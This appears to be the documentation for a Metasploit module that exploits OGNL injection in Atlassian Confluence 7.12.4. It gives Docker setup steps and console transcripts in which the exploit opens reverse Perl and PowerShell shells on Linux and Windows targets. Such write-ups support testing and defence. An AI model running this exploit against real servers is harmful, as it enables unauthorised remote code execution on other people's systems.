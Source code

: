 ## Vulnerable Application

### Setup

Run the following [Docker] command to test Confluence **7.12.4**:

`docker run -dp 8090:8090 atlassian/confluence:7.12.4`

You will need to [complete setup] once the container has started.

[Docker]: https://hub.docker.com/r/atlassian/confluence
[complete setup]: https://confluence.atlassian.com/doc/confluence-setup-guide-135691.html

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Scenarios

### Confluence 7.12.4 in [Docker]

```
msf6 > use exploit/multi/http/atlassian_confluence_webwork_ognl_injection
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(multi/http/atlassian_confluence_webwork_ognl_injection) > options

Module options (exploit/multi/http/atlassian_confluence_webwork_ognl_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8090             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf6 exploit(multi/http/atlassian_confluence_webwork_ognl_injection) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(multi/http/atlassian_confluence_webwork_ognl_injection) > set lhost 172.16.57.1
lhost => 172.16.57.1
msf6 exploit(multi/http/atlassian_confluence_webwork_ognl_injection) > run

[*] Started reverse TCP handler on 172.16.57.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully tested OGNL injection.
[*] Executing cmd/unix/reverse_perl (Unix Command)
[*] Command shell session 1 opened (172.16.57.1:4444 -> 172.16.57.1:62795 ) at 2021-10-14 16:31:23 -0500

whoami
confluence
^Z
Background session 1? [y/N]  y
```

### Confluence 7.12.4 on Windows Server 2016

```
msf6 exploit(multi/http/atlassian_confluence_webwork_ognl_injection) > set rhosts 172.16.57.9
rhosts => 172.16.57.9
msf6 exploit(multi/http/atlassian_confluence_webwork_ognl_injection) > set target 2
target => 2
msf6 exploit(multi/http/atlassian_confluence_webwork_ognl_injection) > run

[*] Started reverse SSL handler on 172.16.57.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully tested OGNL injection.
[*] Executing cmd/windows/powershell_reverse_tcp (Windows Command)
[*] Powershell session session 2 opened (172.16.57.1:4444 -> 172.16.57.9:61152 ) at 2021-10-14 16:31:59 -0500

PS C:\Program Files\Atlassian\Confluence> whoami
nt authority\network service
PS C:\Program Files\Atlassian\Confluence>
```
